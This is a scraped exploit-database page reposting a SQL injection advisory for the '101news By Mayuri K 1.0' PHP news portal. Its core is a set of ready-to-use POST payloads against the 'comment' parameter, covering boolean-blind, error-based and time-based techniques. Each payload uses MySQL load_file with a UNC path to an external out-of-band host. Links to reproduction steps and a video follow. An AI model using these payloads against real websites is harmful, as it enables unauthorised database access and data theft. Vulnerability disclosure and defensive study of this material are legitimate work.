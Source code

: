```yaml
---
title: 101news By Mayuri K 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170874&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-08
fetch_date: 2025-10-04T05:55:14.232870
---
```


# 101news By Mayuri K 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for 101news By Mayuri K 1.0 SQL Injection

2023-02-07 | CVSS 0.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170874
## Title: 101news-by-Mayuri-K-1.0 Multiple-SQLi
## Author: nu11secur1ty
## Date: 02.02.2023
## Vendor: https://mayurik.com/
## Software: https://mayurik.com/source-code/P4030/news-portal-project-in-php
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `comment` parameter appears to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+'
was submitted in the comment parameter.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The application interacted with that domain, indicating that the
injected SQL query was executed. This system is absolutely
UNPROTECTED!

STATUS: HIGH Vulnerability

[+]Payload:
```mysql
---
Parameter: comment (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&email=YxpqSxQd@burpcollaborator.net&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
RLIKE (SELECT (CASE WHEN (1140=1140) THEN 0x313637353635+(select
load_file(0x5c5c5c5c316b6d376233693432716b70346d3269793572797068696f62666838357a796e7071646930626f302e6f6173746966792e636f6d5c5c627866))+''
ELSE 0x28 END)) AND 'RBgF'='RBgF&submit=

Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&email=YxpqSxQd@burpcollaborator.net&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
AND (SELECT 4135 FROM(SELECT COUNT(*),CONCAT(0x71766b6a71,(SELECT
(ELT(4135=4135,1))),0x7171627071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'iMBs'='iMBs&submit=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&email=YxpqSxQd@burpcollaborator.net&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
AND (SELECT 1879 FROM (SELECT(SLEEP(3)))AQLB) AND 'asLq'='asLq&submit=
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/mayuri_k/2023/101news)

## Proof and Exploit:
[href](https://streamable.com/vrc7x8)

## Time spend:
01:00:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
